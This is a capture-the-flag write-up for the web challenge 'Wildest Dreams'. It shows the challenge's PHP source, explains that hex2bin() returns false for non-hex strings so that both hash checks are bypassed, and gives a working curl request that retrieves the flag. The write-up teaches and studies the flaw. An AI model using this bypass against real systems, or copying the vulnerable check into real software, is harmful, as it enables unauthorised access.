


# [Web] Wildest Dreams

## Description

I am told that I can be in your wildest dreams...



## Summary

PHP "feature" of how [hex2bin()](https://www.php.net/manual/en/function.hex2bin.php) returns `boolean(false)` for non-hex strings.

## Walkthrough

We are given the page's [source](files/1989.php):

```php
<?php
    if(!empty($_GET['i1']) && !empty($_GET['i2'])){
        $i1 = $_GET['i1'];
        $i2 = $_GET['i2'];
        if($i1 === $i2){
            die("i1 and i2 can't be the same!");
        }
        $len1 = strlen($i1);
        $len2 = strlen($i2);
        if($len1 < 20){
            die("i1 is too shorttttttt pee pee pee pee pee");
        }
        if($len2 < 20){
            die("i2 is too shorttttttt pee pee pee pee pee");
        }
        if(sha1(hex2bin($i1)) === sha1(hex2bin($i2)));
            if(md5(hex2bin($i1)) !== md5(hex2bin($i2)))
                echo "All I want to be is in your wildest dreams";
                if(md5(hex2bin($i1)) == md5(hex2bin($i2)))echo $flag;
        echo "<br>I think he did it, but i just cant prove it.";
    } else {
        echo "<br> You need to provide two strings, i1 and i2. /1989.php?i1=a&i2=b";
    }
?>
```

Well, it seems like in order to get the flag, we need to supply 2 HTTP parameters `i1` and `i2`. The constraints are:
1. They cannot be the same string.
2. They must be >= 20 characters.
3. The SHA1 and MD5 of their binary form must match.

Although it seems "impossible" to find 2 different strings that have MD5 and SHA1 collisions, let us take a step back and see what `hex2bin()` does. The code tries to take the input string and convert it to its binary form. However, what if the input string is **not in hexadecimal**?

> 

Verifying that we indeed get `false` for non-hexadecimal strings:

```php
$i1 = sha1(hex2bin("0x000000000000000001"));
$i2 = sha1(hex2bin("0x000000000000000002"));
$i3 = md5(hex2bin("0x000000000000000001"));
$i4 = md5(hex2bin("0x000000000000000002"));
var_dump($i1);
var_dump($i2);
var_dump($i3);
var_dump($i4);
```

Results in:

```
string(40) "da39a3ee5e6b4b0d3255bfef95601890afd80709"
string(40) "da39a3ee5e6b4b0d3255bfef95601890afd80709"
string(32) "d41d8cd98f00b204e9800998ecf8427e"
string(32) "d41d8cd98f00b204e9800998ecf8427e"
```

So we can just use any 2 strings that are not hexadecimals and we will get the flag:

```bash
$ curl -s "http://chals.ctf.sg:30501/1989.php?i1=0x000000000000000001&i2=0x000000000000000002" | grep CTFSG

CTFSG{1-+h1nk-h3-d1d-1+-bu+-I-ju5t-c4n+-pr0v3-1t}
```
